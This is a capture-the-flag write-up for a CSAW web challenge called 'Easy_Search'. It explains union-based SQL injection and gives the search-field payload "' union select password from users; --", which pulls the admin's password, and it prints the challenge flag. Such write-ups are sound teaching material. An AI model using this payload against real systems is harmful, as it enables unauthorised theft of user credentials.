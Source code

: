 # Easy_Search
![Category Web](https://img.shields.io/badge/category-web-%232fc4e5.svg?longCache=true&style=popout)
![Score 100](https://img.shields.io/badge/score-100-brightgreen.svg?longCache=true&style=popout)
![72 solves](https://img.shields.io/badge/solves-72-%2317a2b8.svg?longCache=true&style=popout)

Write up By
**Robe Zhang** [ThirdRepublic](https://github.com/ThirdRepublic)

## Challenge Description
> Oh boy SQLI sure is easy right?
Can you change the query that the search performs to get the admin's password?
```
web.chal.csaw.io:10103
```

## Background Information
The objective of the challenge is to use SQL injection to extract data from the database.  
The usage of the **UNION** statement allows for additional results to be appended to the SQL query.  
>> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). [Reference](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

[Read More](http://www.sqlinjection.net/union/) <br />
[SQLi Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

## Solution
The webpage was given. <br /> <br />
![screenshot](page.PNG) <br />

Search:
> ' union select password from users; -- 

**Note** **```  --  ```** is an inline comment.  This ignores the rest of the SQL query.

![screenshot](solution.PNG)
## Flag
```
flag{W45_7h47_4n_4c7u4l_VlUn_0NC3}
```
